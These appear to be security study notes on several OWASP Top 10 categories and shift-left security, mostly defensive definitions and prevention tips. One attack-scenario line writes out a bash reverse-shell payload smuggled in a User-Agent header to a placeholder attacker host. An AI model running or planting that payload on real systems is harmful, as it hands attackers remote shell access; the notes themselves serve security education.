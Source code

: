 
Software and Data Integrity Failures
- Refer to the lack of provenance and whether a software or data artefact has been tampered since its original creation

Software and Data Integrity Failures Typical Vuln
- Insufficient verification of data origin and authenticity
- Missing support for integrity check

Software and Data Integrity Failures Prevention
- Use digital signatures to verify the source and integrity of software and data artefacts
- Use integrity checks/signatures when sending serialised data to untrusted clients

Security Logging and Monitoring Failures
- Relates to the lack of logging, especially application logging, securing the logs against tampering and crucially the lack of log monitoring

Security Logging and Monitoring Failures Typical Vuln
- Lack of logs for security related events. E.g. No logging of user authentication failures prevents detection of brute-force password
- No integrity mechanisms in place allow an attacker to cover their tracks

Security Logging and Monitoring Failures Attack Scenario
- An attacker inserts malicious code into a log file entry by manipulating user input to a web application
- Injects the code into the user agent string: `User-Agent: Mozilla/5.0; /bin/bash -i >& /dev/tcp/attacker_ip/443 0>&1`

Security Logging and Monitoring Failures Attack Scenario
- Ensure all security related events (login success & failures, access control changes) are logged
- Establish a documented, tested incident response plan/playbook

Server-Side Request Forgery
- An attack vector that exploits an application to interact with the internal/external network or the machine itself

Server-Side Request Forgery Typical Vuln
- Failed web server request validation
- Poor internal network segmentation to restrict lateral movement

Server-Side Request Forgery Prevention
- Enable authentication to all internal systems
- Deploy whitelists of DNS/IP addresses that an application is allowed to access


Shift Left Security
- Incorporating security requirements, security design and security testing earlier in the Software Development Lifecycle (SDLC).

Goals of Shift Left Security
- Identify security design flaws & vulnerabilities as early as possible in the development lifecycle.
- Ensure secure design principles are applied during the design phase

Shift Left Security Common Practices
- Security Policy
- Threat Modelling
- Secure Coding Practices

Shift Left Security - Separation of Privilege
- For highly sensitive operations, split responsibilities between two or more people
- No single person has complete control; requires collusion to exploit